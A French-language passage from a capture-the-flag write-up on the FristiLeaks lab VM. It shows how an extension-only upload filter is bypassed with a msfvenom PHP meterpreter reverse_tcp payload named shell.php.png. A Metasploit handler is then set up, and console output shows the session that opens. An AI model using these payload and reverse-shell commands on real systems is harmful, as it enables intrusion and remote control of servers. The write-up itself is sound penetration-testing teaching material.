 Le portail d'administration de FristiLeaks n'est consisté que d'un simple formulaire d'upload de fichiers images. Or cette fonctionnalité n'est pas filtrée, car après plusieurs tests, on constate que seule l'extension du fichier est vérifiée. Il est ainsi possible de transférer [un script malveillant](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) afin d'interagir avec le serveur, d'y exécuter des commandes arbitraires et d'en prendre le contrôle.

Le principe est le suivant : un [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) en PHP va être créé et déposé sur le serveur. Ce bout de code va, dans un premier temps, créer une connexion sur le port 12345 entre le serveur FristiLeaks (192.168.56.102) et notre propre machine (192.168.56.101), avant d'envoyer un [meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) à travers la connexion créée, qui sera exécuté sur le serveur distant.

```console
root@blinils:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=12345 -o shell.php.png
No platform was selected, choosing Msf::Module::Platform::PHP from the payload
No Arch selected, selecting Arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1116 bytes
Saved as: shell.php.png
```

![Affichage de l'image REVERSESHELL-fristi.png](images/REVERSESHELL-fristi.png)

Un listener est alors mis en place sur notre machine, afin d'écouter toute connexion entrante sur le port 12345.

```console
root@blinils:~# service postgresql start
root@blinils:~# msfdb start
root@blinils:~# msfconsole

--snip--
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
msf exploit(multi/handler) > set LPORT 12345
LPORT => 12345

msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.

[*] Started reverse TCP handler on 192.168.56.101:12345
```

Le fait d'appeler le fichier situé dans le répertoire ```/uploads``` amorce la connexion.

```console
msf exploit(multi/handler) >
[*] Sending stage (37543 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:12345 -> 192.168.56.102:48731) at 2018-01-02 03:04:05 +0100

msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information                          Connection
  --  ----  ----                   -----------                          ----------
  1         meterpreter php/linux  apache (48) @ localhost.localdomain  192.168.56.101:12345 -> 192.168.56.102:48731 (192.168.56.102)
```
